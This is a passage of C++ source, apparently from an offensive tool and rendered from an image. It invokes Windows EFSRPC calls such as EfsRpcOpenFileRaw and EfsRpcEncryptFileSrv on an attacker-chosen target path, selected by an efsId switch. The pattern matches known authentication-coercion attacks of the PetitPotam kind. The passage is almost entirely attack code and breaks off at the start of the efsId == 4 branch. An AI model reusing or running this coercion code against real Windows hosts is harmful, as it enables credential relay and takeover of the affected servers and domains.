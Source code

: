 ```c++
            wprintf(L"[+] Invoking EfsRpcOpenFileRaw with target path: %ws.\r\n", PipeFileName);

            /*
             *  long EfsRpcOpenFileRaw(
             *      [in] handle_t hBinding,
             *      [out] PEXIMPORT_CONTEXT_HANDLE* hContext,
             *      [in, string] wchar_t* FileName,
             *      [in] long Flags
             *  );
             */

            PVOID hContext;
            result = EfsRpcOpenFileRaw(hBinding, &hContext, PipeFileName, 0);
        }

        if (efsId == 1)
        {
            wprintf(L"[+] Invoking EfsRpcEncryptFileSrv with target path: %ws.\r\n", PipeFileName);

            /*
             *  long EfsRpcEncryptFileSrv(
             *      [in] handle_t hBinding,
             *      [in, string] wchar_t* FileName
             *  );
            */

            result = EfsRpcEncryptFileSrv(hBinding, PipeFileName);
        }

        if (efsId == 2)
        {
            wprintf(L"[+] Invoking EfsRpcDecryptFileSrv with target path: %ws.\r\n", PipeFileName);

            /*
             *  long EfsRpcDecryptFileSrv(
             *      [in] handle_t hBinding,
             *      [in, string] wchar_t* FileName,
             *      [in] unsigned long OpenFlag
             *  );
             */

            result = EfsRpcDecryptFileSrv(hBinding, PipeFileName, 0);
        }

        if (efsId == 3)
        {
            wprintf(L"[+] Invoking EfsRpcQueryUsersOnFile with target path: %ws.\r\n", PipeFileName);

            /*
             *  DWORD EfsRpcQueryUsersOnFile(
             *      [in] handle_t hBinding,
             *      [in, string] wchar_t* FileName,
             *      [out] ENCRYPTION_CERTIFICATE_HASH_LIST * *Users
             *  );
             */

            ENCRYPTION_CERTIFICATE_HASH_LIST* Users;
            result = EfsRpcQueryUsersOnFile(hBinding, PipeFileName, &Users);
        }
        if (efsId == 4)
        {
```